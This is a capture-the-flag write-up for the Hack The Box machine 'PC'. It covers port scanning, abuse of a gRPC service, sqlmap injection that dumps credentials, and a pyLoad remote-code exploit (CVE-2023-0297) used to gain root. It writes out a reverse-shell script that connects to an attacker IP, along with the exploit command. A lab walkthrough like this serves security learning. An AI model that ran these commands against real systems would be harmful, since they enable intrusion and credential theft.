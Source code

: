 # PC

- **Platform:** Hack The Box
- **URL:** https://app.hackthebox.com/machines/PC
- **Difficulty:** Easy
- **OS:** Linux

## Enumeration

### Port & Service Enumeration

<details>
<summary>masscan</summary>

```
sudo masscan -p1-65535,U:1-65535 10.10.11.214 --rate=1000 -e tun0

Discovered open port 22/tcp on 10.10.11.214
Discovered open port 50051/tcp on 10.10.11.214
```
</details>

<details>
<summary>nmap</summary>

```
nmap -sC -sV -p22,50051 -Pn 10.10.11.214

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 91:bf:44:ed:ea:1e:32:24:30:1f:53:2c:ea:71:e5:ef (RSA)
|   256 84:86:a6:e2:04:ab:df:f7:1d:45:6c:cf:39:58:09:de (ECDSA)
|_  256 1a:a8:95:72:51:5e:8e:3c:f1:80:f5:42:fd:0a:28:1c (ED25519)
50051/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port50051-TCP:V=7.94%I=7%D=9/5%Time=64F6F7C7%P=aarch64-unknown-linux-gn
SF:u%r(NULL,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff
SF:\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(Ge
SF:nericLines,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\x
SF:ff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(
SF:GetRequest,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\x
SF:ff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(
SF:HTTPOptions,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\
SF:xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r
SF:(RTSPRequest,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff
SF:\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%
SF:r(RPCCheck,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\x
SF:ff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(
SF:DNSVersionBindReqTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05
SF:\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\
SF:?\0\0")%r(DNSStatusRequestTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\
SF:xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0
SF:\0\0\0\0\?\0\0")%r(Help,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\
SF:x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0
SF:\0\?\0\0")%r(SSLSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff
SF:\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\
SF:0\0\0\?\0\0")%r(TerminalServerCookie,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0
SF:\?\xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\
SF:x08\0\0\0\0\0\0\?\0\0")%r(TLSSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x0
SF:4\0\?\xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x
SF:04\x08\0\0\0\0\0\0\?\0\0")%r(Kerberos,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\
SF:0\?\xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04
SF:\x08\0\0\0\0\0\0\?\0\0")%r(SMBProgNeg,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\
SF:0\?\xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04
SF:\x08\0\0\0\0\0\0\?\0\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
</details>


## Foothold

### gRPC → `sau` 🚩

#### Searching for Vulnerabilities

- according to Google, port `50051` is used by gRPC
- connecting with [grpcurl](https://github.com/fullstorydev/grpcurl) shows that the port is indeed used by gRPC:
    
    ```
    ./grpcurl -plaintext 10.10.11.214:50051 list
    
    SimpleApp
    grpc.reflection.v1alpha.ServerReflection
    ```
- [grpcui](https://github.com/fullstorydev/grpcui) provides a Web UI, which makes interaction with the gRPC server easier:
    
    ```
    go run ./cmd/grpcui/grpcui.go -plaintext 10.10.11.214:50051
    ```

#### Exploitation

1. Using `grpcui`, we can create a user account with the `RegisterUser` method:
    
    <p align="center"><img src="assets/register-user.png" width="400"></p>

2. Log in via the `LoginUser` method, the response contains `id` and `token`:

    <p align="center"><img src="assets/response-token.png" width="400"></p>

3. We can add the token as metadata and call the `getInfo` method, while intercepting the POST request with burpsuite:

    <p align="center"><img src="assets/getinfo.png" width="400"></p>

4. `sqlmap -r request` shows that an SQL injection is possible, we can use the `--dump` flag to output the database entries:
    
    ```
    +------------------------+----------+
    | password               | username |
    +------------------------+----------+
    | admin                  | admin    |
    | HereIsYourPassWord1431 | sau      |
    +------------------------+----------+
    ```

5. We can use the password `HereIsYourPassWord1431` to connect via SSH as `sau`. 🚩

## Privilege Escalation

### `sau` → `root` 🏁

#### Searching for Vulnerabilities

- `ss -tlpn` shows that the port `8000` is open locally
- we can use SSH to forward the port to our local machine:
    
    ```
    ssh -L 12345:localhost:8000 sau@10.10.11.214
    ```
- Now scanning the port with nmap shows, that there is a web server running. Opening the webpage in a browser reveals that this is a pyLoad instance for which an RCE exploit exists *(CVE-2023-0297)*
    - https://www.exploit-db.com/exploits/51532

#### Exploitation

1. On the target, we can create a script `/tmp/shell.sh` for starting a reverse shell:
    
    ```bash
    #!/bin/bash

    /bin/sh -i >& /dev/tcp/10.10.16.3/9002 0>&1
    ```

2. Then we can use the [exploit](https://www.exploit-db.com/exploits/51532) to start a reverse shell:
    ```bash
    python3 51532.py -u http://127.0.0.1:12345 -c 'bash /tmp/bash.sh'
    ```

3. We now have reverse shell access as `root`. 🏁
